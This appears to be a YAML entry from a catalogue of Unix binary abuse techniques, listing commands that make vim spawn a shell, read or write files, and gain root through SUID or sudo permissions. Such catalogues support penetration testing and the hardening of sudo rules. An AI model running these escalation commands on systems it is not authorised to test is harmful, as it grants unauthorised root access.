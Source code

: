 ```yaml
---
functions:
  shell:
    - code: vim -c ':!/bin/sh'
    - code: |
        vim
        :set shell=/bin/sh
        :shell
    - description: This requires that vim is compiled with Python support.
      code: vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  file-write:
    - code: |
        vim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vim file_to_read
  suid:
    - code: ./vim -c ':!/bin/sh -p'
  sudo:
    - code: sudo vim -c ':!/bin/sh'
    - code: sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
      description: This requires that vim is compiled with Python support.
---
```


